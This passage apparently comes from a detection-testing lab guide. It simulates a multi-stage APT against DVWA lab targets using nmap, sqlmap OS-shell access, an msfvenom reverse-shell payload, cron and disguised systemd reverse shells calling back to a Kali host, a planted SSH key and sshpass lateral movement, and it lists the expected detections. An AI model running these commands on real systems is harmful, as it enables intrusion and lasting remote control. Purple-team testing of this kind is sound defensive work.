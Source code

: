 **Expected Detections**:
- Registry hive access (rule 100012)
- LSASS process access
- Credential store access
- Memory dump activities

---

## Scenario 4: Advanced Persistent Threat (APT) Simulation

### 4.1 Initial Access and Reconnaissance

**Objective**: Simulate APT-style multi-stage attack
**MITRE Tactics**: Initial Access, Discovery

```bash
# Stage 1: External reconnaissance
nmap -sS -O $LINUX_TARGET
nmap --script smb-enum-domains,smb-enum-groups,smb-enum-processes,smb-enum-shares,smb-enum-users $WINDOWS_TARGET

# Stage 2: Web application exploitation
sqlmap -u "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/sqli/?id=1" \
  --cookie="security=low" --os-shell --batch

# Stage 3: Payload delivery
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI_IP LPORT=4444 -f elf > /tmp/payload
python3 -m http.server 8000 &

# Stage 4: Social engineering simulation
curl -F "uploaded=@/tmp/payload" \
  "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/upload/"
```

### 4.2 Persistence and Lateral Movement

**Objective**: Test detection of persistence mechanisms
**MITRE Tactics**: Persistence, Lateral Movement

```bash
# Establish persistence via cron job (Linux)
echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/$KALI_IP/4444 0>&1'" > /tmp/cron_job

# SSH key persistence
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAA... attacker@kali" >> ~/.ssh/authorized_keys

# Service persistence
cat > /tmp/malicious.service << 'EOF'
[Unit]
Description=System Update Service
[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KALI_IP/4444 0>&1'
Restart=always
[Install]
WantedBy=multi-user.target
EOF

# Lateral movement via SSH
sshpass -p 'password' ssh user@$WINDOWS_TARGET "powershell.exe -Command Get-ComputerInfo"
```
